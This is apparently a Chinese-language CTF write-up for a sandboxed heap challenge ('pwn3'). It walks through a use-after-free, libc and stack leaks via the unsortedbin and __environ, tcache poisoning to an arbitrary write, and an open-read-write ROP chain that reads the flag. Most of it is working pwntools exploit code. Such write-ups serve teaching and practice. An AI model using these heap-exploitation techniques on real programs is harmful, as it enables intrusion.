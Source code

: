 # pwn3  
考查的是orw，即open read write  
![](./pics/seccomp.png)  
这道题保护全开，还开了沙盒，所以不能用onegadget或system来getshell  
![](./pics/add.png)  
![](./pics/show.png)  
![](./pics/del.png)  
![](./pics/edit.png)  
漏洞在于free后没有清空指针，存在UAF。  
为了得到libcbase需要把freechunk放进unsortedbin，由于存在tcache，需要先把他填充满。  
```
add(0x30,b'./flag\x00')#0
for i in range(7):
    add(0x100,b'./flag\x00')
for i in range(7):
    add(0x50,b'./flag\x00')


add(0x100,b'./flag\x00')#15
add(0x50,b'./flag\x00')#16
add(0x50,b'./flag\x00')#17
for i in range(14):
    free(i+1)
# pause()
show(2)
heap_addr=u64(p.recv(6).ljust(8,b'\x00'))
print(hex(heap_addr))
free(15)
show(15)
main_arena_96=u64(p.recv(6).ljust(8,b'\x00'))
malloc_hook=main_arena_96-0x70
libcbase=malloc_hook-libc.symbols['__malloc_hook']
print('malloc_hook',hex(malloc_hook))
print('libcbase',hex(libcbase))
```
把堆地址和libc都获得到了。  
之后我试了好久的free_hook和malloc_hook劫持，使他运行onegadget，都失败了（这是我第一次见到沙盒题，不知道）  
谷歌后发现libc里有个地方（__environ）会存栈地址，突然好起来了。  
![](./pics/getstack.png)  
```
add(0x30,b'./flag\x00')#18
free(16)
free(17)
edit(14,p64(environ_addr-0x10))
add(0x50,b'./flag\x00')#19
add(0x50,b'./flag\x00')#20
edit(20,b'a'*0xf)
show(20)
p.recvuntil(b'a'*0xf+b'\n')
stack_addr=u64(p.recv(6).ljust(8,b'\x00'))
print("stack_addr",hex(stack_addr))
```
之后我试图通过tcache投毒把ROP链写到rbp下面，然而可能是开chunk时会把栈破坏，这种方法试了好长时间最终还是没成功。  
我又想到栈里不是会有很多程序地址嘛，通过这个方法得到了程序偏移地址，由此也得到了管理chunks地址的地方。  
```
print('stack_before_proaddr',hex(stack_addr-0x220+0x138))
edit(7,p64(stack_addr-0x220+0x138))
add(0x100,b'a'*0xf)#21
add(0x100,b'a'*0xf)#22
show(22)
# print(p.recv())
p.recvuntil(b'a'*0xf+b'\n')
pro_addr=u64(p.recv(6).ljust(8,b'\x00')) #程序本身的地址
print("pro_addr",hex(pro_addr))
pro_offset=pro_addr-0x1a30
print("pro_offset",hex(pro_offset))         
buf_addr=pro_offset+0x4060
add(0x30,b'./flag\x00')#23                 
add(0x10,b'r\x00')#24
free(0)
free(23)
edit(23,p64(buf_addr+0x10))
print('buf_addr+8*25',hex(buf_addr+8*25))
add(0x30,b'flag\x00\x00\x00\x00')#25
print("under_rbp",hex(stack_addr-0x230))
add(0x30,p64(stack_addr-0x230)+p64(environ_addr-0x10))#26 #得到最有用的控制权，任意地址写
```
接下来就可以做到真正意义上的任意地址写了，程序偏移，libc偏移，stack偏移，堆地址偏移我全都得到了，直接构造ORW的ROP链即可。  
```
# open
rop_link = p64(pop_rdi)+p64(heap_addr+0xa50)+p64(pop_rsi)+p64(0)+p64(open_addr)
# read
rop_link+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(heap_addr+0xb50)+p64(pop_rdx_rcx_rbx)+p64(0x30)*3+p64(read_addr)
# puts
rop_link+= p64(pop_rdi)+p64(heap_addr+0xb50)+p64(puts_addr)
rop_link+= p64(pop_rdi)+p64(heap_addr+0xb50)+p64(puts_addr)
edit(2,rop_link)#这段rop被放在rbp下面
p.interactive()
```
实话实说，结果这个ROP链卡我的时间最久，因为按理rdi要赋值为字符串flag的指针，而我居然赋了个指针的指针，却始终没有发现，导致open失败（而我竟然一直以为是open也被禁用了）以后一定要杜绝此类现象发生。  


